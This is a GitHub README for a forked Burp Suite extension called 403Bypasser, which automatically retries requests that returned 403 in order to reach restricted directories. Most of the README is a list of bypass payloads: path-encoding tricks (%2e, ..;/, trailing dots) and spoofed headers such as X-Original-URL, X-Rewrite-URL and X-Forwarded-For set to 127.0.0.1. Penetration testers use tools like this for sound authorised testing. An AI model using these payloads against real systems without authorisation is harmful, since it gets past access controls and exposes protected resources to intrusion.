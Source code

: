 # 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

This forked repository adds new payloads.
Original: https://github.com/sting8k/BurpSuite_403Bypasser

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2anything -H "X-Original-URL: $2"
$1 -H "X-Original-URL: $1" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1"
$1 -H "X-Rewrite-URL: $1"
$1 -H "X-Rewrite-URL: $2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1:80"
$1/$2 -H "X-Forwarded-For: 127.0.0.1:443"
$1/$2 -H "X-Forwarded-For: http://127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwarded-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2/.random
$1/$2.json
$1/$2%23
$1/$2%26
$1.//$2
$1/$2..;/
$1/$2%
$1/$2.%2e/
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot
<img src="ScreenShot.png" width="450"/>
